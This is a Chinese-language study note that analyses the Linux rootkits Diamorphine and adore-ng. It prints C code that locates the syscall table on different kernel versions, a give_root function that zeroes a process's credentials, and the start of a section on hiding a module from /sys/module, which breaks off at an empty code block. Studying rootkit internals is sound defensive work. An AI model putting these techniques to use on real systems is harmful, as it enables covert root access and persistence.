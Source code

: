 # Diamorphine

### syscall_table 获取

##### LINUX_VERSION_CODE 《= KERNEL_VERSION(4, 4, 0)

暴力搜索：

```c
	unsigned long int i;

	for (i = (unsigned long int)sys_close; i < ULONG_MAX;
			i += sizeof(void *)) {
		syscall_table = (unsigned long *)i;

		if (syscall_table[__NR_close] == (unsigned long)sys_close)
			return syscall_table;
	}
	return NULL;
```

##### LINUX_VERSION_CODE > KERNEL_VERSION(4, 4, 0) &&  LINUX_VERSION_CODE < KERNEL_VERSION(5,7,0)

```c
syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
```

##### LINUX_VERSION_CODE >= KERNEL_VERSION(5,7,0)

当内核版本 >= KERNEL_VERSION(5,7,0) 时候，kallsyms_lookup_name 不在导出，需要通过 kprobe获取其地址：

```c
#include <linux/kprobes.h>
static struct kprobe kp = {
	    .symbol_name = "kallsyms_lookup_name"
};

typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);

kallsyms_lookup_name_t kallsyms_lookup_name;
register_kprobe(&kp);
kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
unregister_kprobe(&kp);

syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
```

### 权限提升

```c
void
give_root(void)
{
	#if LINUX_VERSION_CODE < KERNEL_VERSION(2, 6, 29)
		current->uid = current->gid = 0;
		current->euid = current->egid = 0;
		current->suid = current->sgid = 0;
		current->fsuid = current->fsgid = 0;
	#else
		struct cred *newcreds;
		newcreds = prepare_creds();
		if (newcreds == NULL)
			return;
		#if LINUX_VERSION_CODE >= KERNEL_VERSION(3, 5, 0) \
			&& defined(CONFIG_UIDGID_STRICT_TYPE_CHECKS) \
			|| LINUX_VERSION_CODE >= KERNEL_VERSION(3, 14, 0)
			newcreds->uid.val = newcreds->gid.val = 0;
			newcreds->euid.val = newcreds->egid.val = 0;
			newcreds->suid.val = newcreds->sgid.val = 0;
			newcreds->fsuid.val = newcreds->fsgid.val = 0;
		#else
			newcreds->uid = newcreds->gid = 0;
			newcreds->euid = newcreds->egid = 0;
			newcreds->suid = newcreds->sgid = 0;
			newcreds->fsuid = newcreds->fsgid = 0;
		#endif
		commit_creds(newcreds);
	#endif
}
```

# adore-ng

### 模块隐藏

通过对adore-ng 代码分析，我们还需要对 /sys/module 下的 模块文件进行隐藏。

sysfs 是 Linux 内核中的一个虚拟文件系统，它提供了一个统一的接口来访问内核对象，kobject 代表一个内核对象，而 kset 是一组 kobject 的集合。

内核模块加载时，调用 mod_sysfs_setup(/kernel/module/sysfs.c) 函数，初始化其对应的 /sys/module下面的目录。



```

```





# 资料

Diamorphine

https://github.com/m0nad/Diamorphine

adore-ng

https://github.com/yaoyumeng/adore-ng

设备模型

https://www.cnblogs.com/jliuxin/p/14129383.html